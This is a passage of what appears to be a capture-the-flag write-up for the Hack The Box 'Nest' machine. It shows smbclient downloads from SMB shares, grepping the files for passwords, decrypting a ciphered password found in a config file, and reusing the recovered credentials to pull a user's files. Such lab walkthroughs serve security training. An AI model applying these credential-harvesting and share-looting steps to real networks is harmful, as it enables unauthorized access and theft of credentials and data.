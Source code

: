 ```
getting file \IT\Configs\RU Scanner\RU_config.xml of size 270 as RU_config.xml (2,1 KiloBytes/sec) (average 9,0 KiloBytes/sec)
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0,4 KiloBytes/sec) (average 8,4 KiloBytes/sec)
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (3,4 KiloBytes/sec) (average 8,1 KiloBytes/sec)
```

One of the file we retrieved is containing a password:

```
$ grep -ri pass smb
smb/IT/Configs/RU Scanner/RU_config.xml:  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
smb/Shared/Templates/HR/Welcome Email.txt:Password: welcome2019

$ cat 'smb/IT/Configs/RU Scanner/RU_config.xml'
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

The _RU Scanner_ password is ciphered but pasting
`fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=` in a search we can find some
code snippets that are able to decipher it.

- VB.Net: https://dotnetfiddle.net/kiYWi4
- VB.Net: https://dotnetfiddle.net/vYnZLb

Deciphered password is `xRxRxPANCAK3SxRxRx` for `c.smith` user.

There is another file hinting us some files:

```
$ tail smb/IT/Configs/NotepadPlusPlus/config.xml
        <Find name="redeem on" />
        <Find name="192" />
        <Replace name="C_addEvent" />
    </FindHistory>
    <History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
</NotepadPlus>
```

So we can go back to `Users` share with a real user this time (`c.smith`) and
download all his personal files.

```
$ smbclient \\\\10.10.10.178\\Users -U 'c.smith'
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Administrator\*
getting file \C.Smith\HQK Reporting\AD Integration Module\HqkLdap.exe of size 17408 as HqkLdap.exe (42,7 KiloBytes/sec) (average 42,7 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt of size 0 as Debug Mode Password.txt (0,0 KiloBytes/sec) (average 34,7 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\HQK_Config_Backup.xml of size 249 as HQK_Config_Backup.xml (1,9 KiloBytes/sec) (average 27,8 KiloBytes/sec)
getting file \C.Smith\user.txt of size 32 as user.txt (0,3 KiloBytes/sec) (average 23,2 KiloBytes/sec)
```